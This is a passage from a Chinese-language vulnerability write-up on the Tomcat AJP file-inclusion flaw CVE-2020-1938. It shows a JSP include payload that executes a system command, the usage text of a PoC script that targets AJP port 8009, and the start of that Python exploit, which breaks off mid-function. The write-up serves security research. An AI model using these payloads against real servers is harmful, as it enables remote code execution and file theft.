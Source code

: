 **后话**

我试了一下jsp的文件包含，这个demo下也是可以的，所以实际上RCE就是jsp的文件包含搞的鬼，要先上传一个文件，这个文件路径可被包含，然后读取模版解析，最后RCE。


```java
Copy to clipboard//1.jsp
<%@ page language="java" import="java.util.*" pageEncoding="UTF-8" %>
<%@ include file="1.txt" %>

//1.txt
<%@ Runtime.getRuntime().exec("open /System/Applications/Calculator.app");%>
```

另外前面可能有师傅会问为什么是GET，原因是下面这个POC有forwardrequest 2，根据AJP数据包格式第6个字节(02)代表是Get请求。另外在Tomcat中也有相关映射关系，在 AjpProcessor 做 prepareRequest 处理的时候会根据字节选择相关的请求方式。

![](images/15893726688665.png)


**poc**


```bash
(py27)> python .\cve-2020-1938-poc.py -h
usage: cve-2020-1938-poc.py [-h] [-p PORT] [-w WEBAPP] [-f FILE] [-l] target

positional arguments:
  target                Hostname or IP to attack

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  AJP port to attack (default is 8009)
  -w WEBAPP, --webapp WEBAPP
                        Which webapp to attack (default is ROOT
  -f FILE, --file FILE  file path :(WEB-INF/web.xml)
  -l, --lfi             local file include
```

python2.7


```python
#!/usr/bin/env python
# CNVD-2020-10487  Tomcat-Ajp lfi
# Based on: https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi/
#
# Some references:
# https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html
import socket
import struct
import argparse


def pack_string(s):
    if s is None:
        return struct.pack(">h", -1)
    l = len(s)
    return struct.pack(">H%dsb" % l, l, s.encode('utf8'), 0)


def unpack(stream, fmt):
    size = struct.calcsize(fmt)
    buf = stream.read(size)
    return struct.unpack(fmt, buf)


def unpack_string(stream):
    size, = unpack(stream, ">h")
```